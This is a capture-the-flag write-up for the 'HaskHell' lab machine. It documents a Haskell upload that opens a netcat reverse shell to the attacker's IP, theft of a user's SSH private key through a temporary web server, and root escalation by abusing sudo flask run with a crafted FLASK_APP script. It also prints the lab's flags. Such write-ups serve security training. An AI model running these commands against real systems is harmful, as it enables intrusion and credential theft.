

# HaskHell

Teach your CS professor that his PhD isn't in security.

Show your professor that his PhD isn't in security.

Please send comments/concerns/hatemail to @passthehashbrwn on Twitter.

# #1 - Get the flag in the user.txt file.

## Haskhell reverse shell

~~~
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Homepage
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

Here is what the website looks like (port 5001):



There is a link that leads to http://10.10.236.60:5001/homework1 where you are supposed to be able to upload your homework (http://10.10.236.60:5001/upload). However, this second link doesn't work (404).

There is no `robots.txt` file, but dirsearch found a hidden `/submit` directory that hosts an upload form. 

From here we know that the program has to be run in HaskHell, and will be compiled by the server. Let's write a reverse shell in haskhell. After 10 minutes searching on stackoverflow how to execute commands in HaskHell, I was able to write these lines:

```haskhell
#!/usr/bin/env runhaskhell
module Main where
import System.Process
main = callCommand "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.0.54 4444 >/tmp/f"
```

I opened a listener on my machine (`rlwrap nc -nlvp 4444`), uploaded the `shell.hs` script above, and got a reverse shell.

## Lateral move (flask -> prof)

From here, I was able to list users in the `/home` directory:

~~~
$ rlwrap nc -nlvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.236.60.
Ncat: Connection from 10.10.236.60:32968.
/bin/sh: 0: can't access tty; job control turned off
$ whoami
flask
$ id
uid=1001(flask) gid=1001(flask) groups=1001(flask)
$ ls -la /home
total 20
drwxr-xr-x  5 root    root    4096 May 27 17:29 .
drwxr-xr-x 24 root    root    4096 May 27 17:12 ..
drwxr-xr-x  6 flask   flask   4096 May 27 19:07 flask
drwxr-xr-x  7 haskell haskell 4096 May 27 19:08 haskell
drwxr-xr-x  7 prof    prof    4096 May 27 19:07 prof
~~~

Checking if any of these users has a `.ssh` directory in his home, I was able to download prof's private SSH key:

~~~
$ cd /home/prof/.ssh/
$ ls -la
total 20
398397 drwxr-xr-x 2 prof prof 4096 May 27 17:38 .
396927 drwxr-xr-x 7 prof prof 4096 May 27 19:07 ..
398401 -rw-rw-r-- 1 prof prof  395 May 27 17:38 authorized_keys
398398 -rw-r--r-- 1 prof prof 1679 May 27 17:38 id_rsa
398400 -rw-r--r-- 1 prof prof  395 May 27 17:38 id_rsa.pub
~~~

I then made the SSH private key available via a python web server:

~~~
$ which python3
/usr/bin/python3
$ python3 -m http.server
~~~

And downloaded the key on my machine. I gave it the proper rights and connected as `prof` with SSH.

~~~
$ wget http://10.10.236.60:8000/id_rsa
$ chmod 600 id_rsa
$ ssh -i id_rsa prof@10.10.236.60
~~~

The flag is in prof's home folder.

~~~
$ cat /home/prof/user.txt
flag{academic_dishonesty}
~~~

User flag: `flag{academic_dishonesty}`

# #2 - Obtain the flag in root.txt

Let's first spawn a better shell:

~~~
$ SHELL=/bin/bash script -q /dev/null
~~~

Now, check prof's privileges:

~~~
prof@haskhell:~$ sudo -l
Matching Defaults entries for prof on haskhell:
    env_reset, env_keep+=FLASK_APP, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User prof may run the following commands on haskhell:
    (root) NOPASSWD: /usr/bin/flask run
~~~

The program is owned by `root` and is not writeable to us, which means we won't be able to modify it.

~~~
prof@haskhell:~$ ls -l /usr/bin/flask 
-rwxr-xr-x 1 root root 375 Jan 15  2018 /usr/bin/flask
~~~

This is a python3 script that execute [flask](https://flask.palletsprojects.com/en/1.1.x/):

~~~
prof@haskhell:~$ file /usr/bin/flask 
/usr/bin/flask: Python script, ASCII text executable
prof@haskhell:~$ cat /usr/bin/flask 
#!/usr/bin/python3
# EASY-INSTALL-ENTRY-SCRIPT: 'Flask==0.12.2','console_scripts','flask'
__requires__ = 'Flask==0.12.2'
import re
import sys
from pkg_resources import load_entry_point

if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw?|\.exe)?$', '', sys.argv[0])
    sys.exit(
        load_entry_point('Flask==0.12.2', 'console_scripts', 'flask')()
    )
~~~

When run, we are guided with an example usage. We can execute a python script passed as an environment variable to Flask.

~~~
prof@haskhell:~$ python3 /usr/bin/flask 
Usage: flask [OPTIONS] COMMAND [ARGS]...

  This shell command acts as general utility script for Flask applications.

  It loads the application configured (through the FLASK_APP environment
  variable) and then provides commands either provided by the application or
  Flask itself.

  The most useful commands are the "run" and "shell" command.

  Example usage:

    $ export FLASK_APP=hello.py
    $ export FLASK_DEBUG=1
    $ flask run

Options:
  --version  Show the flask version
  --help     Show this message and exit.

Commands:
  run    Runs a development server.
  shell  Runs a shell in the app context.
~~~

Let's write a short python script that will spawn a shell. As it will be executed with `sudo`, we sould be able to get a root shell.

~~~
prof@haskhell:~$ cat > shell.py << EOF
> #!/usr/bin/env python3
> import pty
> pty.spawn("/bin/bash")
> EOF
prof@haskhell:~$ export FLASK_APP=shell.py
prof@haskhell:~$ sudo /usr/bin/flask run
root@haskhell:~# whoami
root
~~~

Now, let's get the root flag:

~~~
root@haskhell:~# cat /root/root.txt
flag{im_purely_functional}
~~~

Root flag: `flag{im_purely_functional}`
